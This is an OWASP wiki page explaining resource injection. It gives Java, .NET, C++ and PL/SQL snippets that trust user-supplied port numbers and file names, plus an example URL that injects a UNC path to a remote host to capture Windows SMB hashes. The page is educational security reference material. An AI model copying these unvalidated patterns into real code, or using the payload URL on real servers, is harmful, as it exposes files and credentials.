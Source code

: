 ```yaml
---

layout: col-sidebar
title: Resource Injection
author: 
contributors: 
permalink: /attacks/Resource_Injection
tags: attack, Resource Injection
auto-migrated: 1

---
```


{% include writers.html %}

## Description

This attack consists of changing resource identifiers used by an
application in order to perform a malicious task. When an application
defines a resource type or location based on user input, such as a file
name or port number, this data can be manipulated to execute or access
different resources.
The resource type affected by user input indicates the content type that
may be exposed. For example, an application that permits input of
special characters like period, slash, and backslash is risky when used
in conjunction with methods that interact with the filesystem.

The resource injection attack differs from [Path
Manipulation](Path_Manipulation "wikilink") as resource injection
focuses on accessing resources other than the local filesystem, while
[Path Manipulation](Path_Manipulation "wikilink") focuses on accessing
the local filesystem.

## Examples

### Example 1

The following examples represent an application which gets a port number
from an HTTP request and creates a socket with this port number without
any validation. A user using a proxy can modify this port and obtain a
direct connection (socket) with the server.

**Java code:**

```java
String rPort = request.getParameter("remotePort");
...
ServerSocket srvr = new ServerSocket(rPort);
Socket skt = srvr.accept();
...
```


**.Net code:**

```c#
int rPort = Int32.Parse(Request.get_Item("remotePort "));
...
IPEndPoint endpoint = new IPEndPoint(address,rPort);
socket = new Socket(endpoint.AddressFamily,
SocketType.Stream, ProtocolType.Tcp);
socket.Connect(endpoint);
...
```

### Example 2

This example is same as previous, but it gets port number from CGI
requests using C++:

```cpp
char* rPort = getenv("remotePort ");
...
serv_addr.sin_port = htons(atoi(rPort));
if (connect(sockfd,&serv_addr,sizeof(serv_addr)) < 0)
error("ERROR connecting");
...
```

### Example 3

This example in PLSQL / TSQL gets a URL path from a CGI and downloads
the file contained in it. If a user modifies the path or filename, it’s
possible to download arbitrary files from server:

```sql
...
filename := SUBSTR(OWA_UTIL.get_cgi_env('PATH_INFO'), 2);
WPG_DOCLOAD.download_file(filename);
...
```

### Example 4

This example shows a resource injection attack focused on obtaining
Microsoft Windows SMB hashes from a remote server:

<http://www.vulnerable.com/open.aspx?filename=\\192.168.1.2\test.txt>

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:Logical Attacks](:Category:Logical_Attacks "wikilink")
  - [:Category: Information
    Disclosure](:Category:_Information_Disclosure "wikilink")

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [Path Traversal](Path_Traversal "wikilink")
  - [Path Manipulation](Path_Manipulation "wikilink")
  - [Relative Path Traversal](Relative_Path_Traversal "wikilink")
  - [Injection Attacks](:Category:Injection_Attack "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [:Category:Input Validation](:Category:Input_Validation "wikilink")

## References

  - <http://samate.nist.gov/SRD/view_testcase.php?tID=1734>
  - <http://cwe.mitre.org/data/definitions/99.html>
  - <https://cwe.mitre.org/data/definitions/40.html>
  - <http://capec.mitre.org/data/index.html#Definition>
  - <http://www.fortifysoftware.com/vulncat/>
  - G. Hoglund and G. McGraw. Exploiting Software. Addison-Wesley, 2004.

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[Category: Injection](Category:_Injection "wikilink") [Category:
Attack](Category:_Attack "wikilink")